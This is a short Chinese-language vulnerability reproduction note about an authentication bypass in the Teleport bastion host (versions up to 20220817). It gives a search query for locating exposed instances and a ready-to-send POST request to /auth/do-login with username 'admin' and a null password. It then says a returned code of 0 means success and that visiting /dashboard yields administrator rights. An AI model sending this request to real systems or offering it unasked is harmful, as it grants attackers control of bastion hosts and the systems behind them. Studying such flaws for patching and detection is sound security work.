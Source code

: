 # Teleport堡垒机 do-login 任意用户登录漏洞

# Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

```
Teleport Version <= 20220817
```

## 网络测绘

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](/images/202208241349427.png)

验证POC， captcha参数为验证码

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![image-20220824135439227](/images/202208241354271.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![image-20220824135449199](/images/202208241354243.png)

